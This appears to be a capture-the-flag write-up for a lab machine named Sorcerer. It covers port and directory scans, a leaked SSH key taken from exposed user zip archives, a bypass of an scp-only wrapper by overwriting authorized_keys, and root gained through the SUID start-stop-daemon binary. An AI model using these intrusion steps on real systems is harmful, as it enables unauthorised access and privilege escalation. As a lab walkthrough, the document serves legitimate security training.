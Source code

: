 # Sorcerer

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:52 +08
Nmap scan report for 192.168.168.100
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7742/tcp  open  msss
33603/tcp open  unknown
41637/tcp open  unknown
42193/tcp open  unknown
59253/tcp open  unknown
```

Did a detailed scan in case:

```
$ sudo nmap -p 80,111,2049,7742,33603,41637 -sC -sV --min-rate 5000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:55 +08
Nmap scan report for 192.168.168.100
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      41637/tcp   mountd
|   100005  1,2,3      52180/udp   mountd
|   100021  1,3,4      42193/tcp   nlockmgr
|   100021  1,3,4      58389/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs_acl 3 (RPC #100227)
7742/tcp  open  http    nginx
|_http-title: SORCERER
33603/tcp open  mountd  1-3 (RPC #100005)
41637/tcp open  mountd  1-3 (RPC #100005)
```

NFS and Port 7742 look the most promising.

### NFS Enumeration --> Dead End

I first enumerated NFS to see if there was anything to mount:

```
$ showmount -e 192.168.168.100 
Export list for 192.168.168.100:
```

There was nothing, so let's move on.

### Web Enumeration --> Zipfiles

Port 7742 just shows us a login page:

<figure><img src="../../../.gitbook/assets/image (3) (13).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` directory scan while I tested some weak default passwords. I found a few directories present:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.168.100:7742/ -t 100  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.168.100:7742/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/10 13:58:45 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/default/]
/zipfiles             (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/zipfiles/]
```

The `/zipfiles` directory looks the most interesting. Within it, there were zip files named after the users on the machine:

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

`max.zip` was the largest and hence the only one I downloaded. When unzipped, it contained all the files like his SSH key:

```
$ unzip max.zip       
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh
```

However, attempts to SSH in as `max` fail.

```
$ ssh -i home/max/.ssh/id_rsa max@192.168.168.100
PTY allocation request failed on channel 0
ACCESS DENIED
```

It seems that something is blocking us. When we read the `scp_wrapper.sh` file, we see that `ssh` is being blocked, but not `scp`:

```bash
$ cat scp_wrapper.sh 
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Since `scp` is allowed, we can transfer our public key into the `authorized_keys` folder:

```
$ scp -O -i id_rsa ~/.ssh/id_rsa.pub max@192.168.168.100:/home/max/.ssh/authorized_keys
id_rsa.pub                                                 100%  391     2.2KB/s   00:00
```

Afterwards. we can just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Root Shell

I did a search for SUID binaries on the machine:

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.nfs
/usr/sbin/start-stop-daemon
<TRUNCATED>
```

`start-stop-daemon` is an SUID binary, and it can spawn a `root` shell for us.&#x20;

![](<../../../.gitbook/assets/image (36) (2).png>)

